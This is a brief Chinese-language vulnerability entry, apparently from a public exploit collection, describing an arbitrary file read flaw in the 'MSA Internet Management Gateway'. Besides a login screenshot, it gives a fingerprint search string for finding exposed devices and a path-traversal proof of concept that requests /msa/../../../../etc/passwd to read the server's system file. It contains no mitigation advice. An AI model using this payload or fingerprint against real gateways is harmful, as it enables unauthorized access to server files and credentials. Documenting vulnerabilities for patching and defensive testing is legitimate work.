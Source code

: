 # MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

```
MSA 互联网管理网关
```

## 网络测绘

```
"互联网管理网关"
```

## 漏洞复现

登录页面

![img](images/202202110916716.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](images/202202110916705.png)